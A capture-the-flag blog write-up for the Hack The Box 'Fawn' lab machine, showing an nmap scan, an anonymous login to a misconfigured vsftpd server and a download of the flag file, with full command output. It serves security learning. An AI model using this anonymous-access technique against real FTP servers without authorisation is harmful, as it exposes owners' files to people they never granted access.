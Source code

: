```yaml
---
title: "Hack The Box - Fawn"
date: 2022-10-11T22:13:07+05:30
draft: false
description:  " Fawn from HackTheBox is an retired machine which is vulnerable to security Misconfiguration FTP , which can be easily exploited with help of Basic Recon " 
hideToc: false            
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- FTP
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/fawn/fawn1.png
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Fawn Machine.


## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Fawn</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 21 ware open. while trying to connect with default password of anonymous user FTP ware get logged.

## Recon

lets start with initial default scan (-sC) 

port 21 FTP has opened and the version of ftp server is   vsftpd 3.0.3. File Transfer Protocol (FTP) is a standard communication protocol used to transfer computer files from a server to a client on a computer network. FTP is built on a client–server model architecture using separate control and data connections between the client and the server. FTP users may authenticate themselves with a clear-text sign-in protocol, generally in the form of a username and password. For secure transmission that protects the username and password and encrypts the content, FTP is often secured
with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).

 if the server is configured insecurely. allows anonymous login then we can able to login username and password as a anonymous. 



```bash
atom@atom-VirtualBox:~/htb/fawn$ nmap -sC -sV 10.129.1.14 -o initialscan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-11 19:57 IST
Nmap scan report for 10.129.1.14
Host is up (0.29s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.32
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 592.59 seconds
```

The nmap scan shows that the server allows anonymous login allowed. lets try to login with default credentials.

```bash
atom@atom-VirtualBox:~/htb/fawn$ ftp 10.129.1.14
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:atom): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

we have successfully logged into FTP. let’s dig for any sensitive files, 

```bash
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

we have found flag file o ftp home directory, GET command is used to download  target file 

```bash
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (651.0416 kB/s)
ftp>
```
``` cat ``` command is used to viw the content.